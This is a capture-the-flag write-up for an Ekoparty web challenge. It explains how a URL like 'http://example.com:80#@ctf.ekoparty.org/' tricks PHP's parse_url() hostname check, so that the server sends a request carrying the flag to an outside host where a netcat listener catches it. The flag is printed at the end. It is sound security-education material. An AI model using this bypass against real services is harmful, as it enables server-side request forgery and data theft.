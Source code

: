 # Url shortener - Web 200

```
We developed this url shortener, it will allow you to share links with your friends!

http://9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site:20000/

Hint
You will need to bypass the check for the hostname and send the request somewhere else!
Source code: https://paste.null-life.com/#/sGv1ZrIyhAAYCQMa6p8UFm2IFvzZhJ9yAYtkHgCcCz7bu8YE/66lTyw0 
```

It's a URL shortener, basically (except it doesn't actually work, but that doesn't matter for this challenge). The key is that you are only supposed to sorten url's that point to the ctf.ekoparty.org main site.

[Here](index.php)'s the source. There isn't an obvious vuln. However, the app makes a request to whatever URL you provide (as long as it passes the hostname check), and it puts the flag in the user agent. Then, whatever the page sets as its `<title>` is shown to the user. Since the URL is supposed to be restricted to ctf.ekoparty.org, I thought maybe there was an easter egg somewhere on the main site where the user agent gets reflected in the `<title>`. However, a quick scan with `wget` came up empty-handed.

Some Googling revealed [this](https://bugs.php.net/bug.php?id=73192) PHP vuln from September. Basically you can trick `parse_url()` (the function performing the hostname check) with a URL like this: `http://example.com:80#@ctf.ekoparty.org/`.

I set up a netcat listener on the Internet somewhere, and:

```
EKO{follow_the_rfc_rabbit}
```
